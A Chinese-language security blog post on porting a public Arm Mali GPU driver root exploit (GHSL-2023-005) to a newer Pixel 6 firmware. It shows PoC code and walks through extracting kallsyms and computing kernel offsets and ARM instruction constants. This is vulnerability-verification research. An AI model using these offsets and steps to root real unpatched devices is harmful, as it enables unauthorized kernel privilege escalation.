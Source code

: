 ```yaml
---
title: 利用 Arm Mali GPU 驱动漏洞获取 root 权限
date: 2024-05-12 21:05:35 +0800
categories: reverse
---
```


## 背景

最近有在看之前网上公布的关于 ```Pixel``` 系列手机关于 ```Arm Mali GPU``` 驱动的提权漏洞，想确认下新版本的固件是否已经修复该漏洞。本文并不是分析其实现原理和提供挖掘漏洞的思路，而是利用现有的 ```PoC``` 代码适配新版本的固件并尝试验证漏洞是否还存在。

## GHSL-2023-005

这个是比较早的在 ```Pixle 6``` 上有验证过可提权的 ```PoC```。原理方面见 [Rooting with root cause: finding a variant of a Project Zero bug](https://github.blog/2023-05-25-rooting-with-root-cause-finding-a-variant-of-a-project-zero-bug)

函数 [```select_offset```](https://github.com/github/securitylab/blob/b70cfa926c6097b2ea6e8cdda56f381a7f48ce5e/SecurityExploits/Android/Mali/CVE_2022_46395/mali_user_buf.c#L133) 做了部分的固件版本匹配适配。


```c
#define AVC_DENY_2301 0x8ba710

#define SEL_READ_ENFORCE_2301 0x8cdfd4

...

void select_offset() {
  char fingerprint[256];
  int len = __system_property_get("ro.build.fingerprint", fingerprint);
  LOG("fingerprint: %s\n", fingerprint);
  if (!strcmp(fingerprint, "google/oriole/oriole:13/TP1A.221105.002/9080065:user/release-keys")) {
    avc_deny = AVC_DENY_2211;
    sel_read_enforce = SEL_READ_ENFORCE_2211;
    fixup_root_shell(INIT_CRED_2211, COMMIT_CREDS_2211, SEL_READ_ENFORCE_2211, ADD_INIT_2211, ADD_COMMIT_2211, &(root_code[0]));
    return;
  }
  if (!strcmp(fingerprint, "google/oriole/oriole:13/TQ1A.221205.011/9244662:user/release-keys")) {
    avc_deny = AVC_DENY_2212;
    sel_read_enforce = SEL_READ_ENFORCE_2212;
    fixup_root_shell(INIT_CRED_2212, COMMIT_CREDS_2212, SEL_READ_ENFORCE_2212, ADD_INIT_2212, ADD_COMMIT_2212, &(root_code[0]));
    return;
  }
  if (!strcmp(fingerprint, "google/oriole/oriole:13/TQ1A.230105.002/9325679:user/release-keys")) {
    avc_deny = AVC_DENY_2301;
    sel_read_enforce = SEL_READ_ENFORCE_2301;
    fixup_root_shell(INIT_CRED_2301, COMMIT_CREDS_2301, SEL_READ_ENFORCE_2301, ADD_INIT_2301, ADD_COMMIT_2301, &(root_code[0]));
    return;
  }

  err(1, "unable to match build id\n");
}
```

## kallsyms

那么问题来了，关于如 ```AVC_DENY_2301``` 的值是如何来的。

需要先了解下 [kallsyms](https://github.com/torvalds/linux/blob/master/kernel/kallsyms.c)

> kallsyms.c: in-kernel printing of symbolic oopses and stack traces.

在 ```Linux``` 内核中，```kallsyms``` 是一个符号表，它包含了内核中所有的符号信息，包括函数、变量、常量等等。

如下的部分内容可从 ```kallsyms``` 导出，其对应关系如下

|     |                   |
| :-- | :---------------- |
| ```AVC_DENY_X``` | [```avc_denied```](http://bricktou.com/security/selinux/avcavc_denied.html) |
| ```SEL_READ_ENFORCE_X``` | [```sel_read_enforce```](https://elixir.bootlin.com/linux/v4.9/source/security/selinux/selinuxfs.c#L132) |
| ```INIT_CRED_X``` | [```init_cred```](https://elixir.bootlin.com/linux/v4.3/source/kernel/cred.c#L43) |
| ```COMMIT_CREDS_X``` | [```commit_creds```](https://elixir.bootlin.com/linux/latest/source/kernel/cred.c#L392) |

获取 ```kallsyms``` 符号表有两种方式

- 通过 ```cat``` 命令获取，但是其首先需要有 ```root``` 权限，而我们要做的就是先提权获取 ```root``` 权限。

```bash
oriole:/ $ cat /proc/kallsyms                                                  
cat: /proc/kallsyms: Permission denied
1|oriole:/ $ su
oriole:/ # cat /proc/kallsyms
0000000000000000 t acpm_ipc_debugfs_init	[gs_acpm]
0000000000000000 t channel_init	[gs_acpm]
...
oriole:/ # echo 0 > /proc/sys/kernel/kptr_restrict
oriole:/ # cat /proc/kallsyms
ffffffd7693f0b28 r exynos5433_bank_type_alive	[pinctrl_samsung_core]
ffffffd7693f0b34 r exynos5433_bank_type_off	[pinctrl_samsung_core]
```

- 通过解析官方 ```boot``` 镜像提取 ```kernel``` 进行分析

首先去[官网](https://developers.google.com/android/images)下载对应自己 ```Pixel``` 机型的镜像文件。比如我手上有 ```Piexl 6```，我下载了 ```image-oriole-tq2a.230505.002``` 版本，后续有验证该版本已经无法通过上述漏洞进行提权了。

从镜像固件里面提取 ```boot.img```，然后解包提取 ```kernel```

```bash
$ ~/AOSP/14.0.0_r29/out/host/linux-x86/bin/unpack_bootimg --boot_img boot.img

$ ls -l out/
total 24376
-rw-rw-r-- 1 shumxin shumxin 24959956 May 12 14:58 kernel
-rw-rw-r-- 1 shumxin shumxin        0 May 12 14:58 ramdisk

$ file out/kernel 
kernel: LZ4 compressed data (v0.1-v0.9)
```

通过 ```file``` 查看提取的 ```kernel``` 还不是一个 ```elf```。暂时无法直接获取 ```kallsyms``` 符号表。

这里需要用到 [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf)进行提取。

```bash
$ $HOME/.venv/bin/vmlinux-to-elf out/kernel  kernel-vm
$ $HOME/.venv/bin/kallsyms-finder kernel-vm  > kallsyms.txt
```

```txt
[+] Version string: Linux version 5.10.149-android13-4-00003-gebdbc9fbe2e2-ab9664856 (build-user@build-host) (Android (8508608, based on r450784e) clang version 14.0.7 (https://android.googlesource.com/toolchain/llvm-project 4c603efb0cca074e9238af8b4106c30add4418f6), LLD 14.0.7) #1 SMP PREEMPT Mon Feb 27 10:44:09 UTC 2023
[+] Guessed architecture: aarch64 successfully in 2.87 seconds
[+] Found kallsyms_token_table at file offset 0x022409a0
[+] Found kallsyms_token_index at file offset 0x02240d40
[+] Found kallsyms_markers at file offset 0x022400e8
[+] Found kallsyms_names at file offset 0x02048828
[+] Found kallsyms_num_syms at file offset 0x02048820
[i] Negative offsets overall: 0 %
[i] Null addresses overall: 0 %
[+] Found kallsyms_offsets at file offset 0x01fbd780
Symbol types => ['B', 'D', 'R', 'T', 'V', 'W', 'b', 'd', 'r', 't']

ffffffc008000000 T _text
...
ffffffc0088bd17c t avc_denied
ffffffc0088d0a64 t sel_read_enforce
ffffffc00aff1380 D init_cred
ffffffc00817a618 T commit_creds
```

其中 ```_text``` 是 ```kernel``` 的起始虚拟地址。对应的换算关系如下。

```C
#define AVC_DENY_2301 0x8ba710            // ffffffc0108ba710 - ffffffc010000000

#define SEL_READ_ENFORCE_2301 0x8cdfd4    // ffffffc0108cdfd4

#define INIT_CRED_2301 0x2fd1418          // ffffffc012fd1418

#define COMMIT_CREDS_2301 0x177ee4        // ffffffc010177ee4

#define ADD_INIT_2301 0x91106000          // add x0, x0, #0x418

#define ADD_COMMIT_2301 0x913b9108        // add x8, x8, #0xee4

// TQ2A.230505.002

#define AVC_DENY_2305 0x8bd17c            // ffffffc0088bd17c - ffffffc008000000

#define SEL_READ_ENFORCE_2305 0x8d0a64    // ffffffc0088d0a64 - ffffffc008000000

#define INIT_CRED_2305 0x2ff1380          // ffffffc00aff1380 - ffffffc008000000

#define COMMIT_CREDS_2305 0x17a618        // ffffffc00817a618 - ffffffc008000000

// 其中 #0x380 取 INIT_CRED_2305 后三个
#define ADD_INIT_2305 0x910e0000          // add x0, x0, #0x380

// 其中 #0x618 取 COMMIT_CREDS 后三位
#define ADD_COMMIT_2305 0x91186108        // add x8, x8, #0x618
```

关于 ```arm``` 指令集操作码可通过 [Online HEX to ARM Converter](https://armconverter.com/?disasm) 进行转化获取 16 进制数据。


## 参考

- [1] [Exploit for GHSL-2023-005](https://github.com/github/securitylab/tree/main/SecurityExploits/Android/Mali/GHSL-2023-005#exploit-for-ghsl-2023-005)
- [2] [CVE-2023-6241](https://github.com/s1204IT/CVE-2023-6241
https://jrgraphix.net/man/K/kallsyms)
- [3] [Potential ARM Mali GPU based root (FireHD 8th -12th gen affected)](https://xdaforums.com/t/potential-arm-mali-gpu-based-root-firehd-8th-12th-gen-affected.4574635/#post-88615941)